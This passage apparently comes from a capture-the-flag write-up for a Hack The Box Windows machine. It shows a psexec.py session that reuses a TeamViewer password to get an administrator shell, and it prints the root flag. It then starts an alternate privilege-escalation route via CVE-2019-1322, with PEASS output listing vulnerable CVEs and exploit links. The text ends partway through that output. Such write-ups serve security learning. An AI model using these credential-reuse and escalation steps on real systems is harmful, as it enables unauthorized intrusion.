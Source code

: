 The solution was simpler as this is a simple password reuse. We fire a psexec
and connect as administrator using
the TeamViewer password and got a shell as administrator and can easily get
the root flag.

    root@kalili:~/installed_tools/impacket/examples# psexec.py administrator@10.10.10.180
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    Password:
    [*] Requesting shares on 10.10.10.180.....
    [*] Found writable share ADMIN$
    [*] Uploading file AmYWRVZa.exe
    [*] Opening SVCManager on 10.10.10.180.....
    [*] Creating service PmSN on 10.10.10.180.....
    [*] Starting service PmSN.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>cd C:\Users\administrator\Desktop

    C:\Users\Administrator\Desktop>type root.txt
    66f9b552d94ea7c55919dc1bfbaff7e1

## Using CVE-2019-1322

There is another unintended method to root this box. This method is not reliable
as the command to start the Update Orchestrator Service sometime return an error
(maybe because I used public servers and other players were also starting and stop the service).

We run [Windows PEASS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
on the box. The output shows that some patches are missing mostly the one for
CVE-2019-1322.

    :::text
    <SNIP>
      [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
        OS Build Number: 17763
          [!] CVE-2019-0836 : VULNERABLE
            [>] https://exploit-db.com/exploits/46718
            [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

          [!] CVE-2019-0841 : VULNERABLE
            [>] https://github.com/rogue-kdc/CVE-2019-0841
            [>] https://rastamouse.me/tags/cve-2019-0841/

          [!] CVE-2019-1064 : VULNERABLE
            [>] https://www.rythmstick.net/posts/cve-2019-1064/

          [!] CVE-2019-1130 : VULNERABLE
            [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

          [!] CVE-2019-1253 : VULNERABLE
            [>] https://github.com/padovah4ck/CVE-2019-1253
